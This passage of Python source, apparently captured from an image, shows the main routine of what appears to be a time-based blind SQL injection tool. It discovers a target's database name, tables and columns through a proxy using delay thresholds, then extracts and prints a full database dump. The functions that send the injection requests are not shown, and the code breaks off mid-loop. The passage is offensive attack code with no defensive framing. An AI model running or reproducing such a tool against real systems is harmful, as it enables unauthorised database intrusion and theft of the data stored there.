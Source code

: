 ```py
    return data

def discover_database_structure():
    print("\n[+] No predefined structure - starting full discovery")
    structure = {'name': '', 'tables': {}}

    db_name = extract_database_name()
    if not db_name:
        print("[!] Failed to extract database name")
        return None
    structure['name'] = db_name

    tables = extract_tables(db_name)
    if not tables:
        print("[!] No tables found")
        return structure

    for table in tables:
        columns = extract_columns(table, db_name)
        structure['tables'][table] = columns

    return structure

def main():
    global database_name
    global_start = time.time()

    print(f"\n{'#'*60}")
    print(f"[+] STARTING EXTRACTION AT: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
    print(f"[+] Using proxy: {proxy['http']}")
    print(f"[+] 2-delay confirmation | 4 max attempts | 3s threshold\n")
    print(f"{'#'*60}")

    database = discover_database_structure()
    if not database:
        print("[!] Failed to discover database structure")
        return

    database_name = database['name']
    print("\n[+] Database structure loaded:")
    print(f"Database: {database['name']}")
    for table, columns in database['tables'].items():
        print(f"  - Table: {table}")
        print(f"    Columns: {', '.join(columns)}")

    print("\n[+] Starting data extraction...")
    for table_name, columns in database['tables'].items():
        data = extract_table_data(table_name, columns, database['name'])
        database['tables'][table_name] = {
            'columns': columns,
            'data': data
        }

    print(f"\n{'#'*60}")
    print("[+] FINAL DATABASE DUMP")
    print(f"{'#'*60}")
    print(f"Database: {database['name']}")

    for table_name, table_info in database['tables'].items():
        print(f"\nTable: {table_name}")
        print(f"Columns: {', '.join(table_info['columns'])}")

        if not table_info['data']:
```